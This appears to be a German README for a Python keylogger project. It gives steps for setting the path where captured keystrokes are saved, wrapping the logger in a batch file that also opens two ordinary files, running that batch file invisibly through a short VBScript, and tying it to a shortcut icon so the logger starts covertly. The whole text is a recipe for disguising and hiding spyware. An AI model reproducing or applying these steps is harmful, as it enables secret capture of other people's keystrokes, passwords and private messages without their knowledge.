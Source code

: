 # Pykeylogger
Pykeylogger in kombination mit cmd file zum gleichzeitigen öffnen von files und des keyloggers


davor key logger text file pfad ("c:/keystrokes/") verändern auf gewünschten pfad in dem die keystrokes als .txt datei gespeichert werden
in program die zwei z öffnenden pfade ändern 
programm als .bat datei abspeichern

danach vbs program integrieren damit die bat datei unsichtbar gestartet werden kann 

Set WshShell = CreateObject("WScript.Shell") 
WshShell.Run chr(34) & "C:\(bat datei zum öffnen der zwei programme)batchconnect.bat" & Chr(34), 0
Set WshShell = Nothing

c pfad durch bat datei pfad ersetzen und als .vbs abspeichern

dann .vbs datei mit icon verbinden unter eigenschaften verknüpfung und dann vbs datei pfad in ziel einspeichern
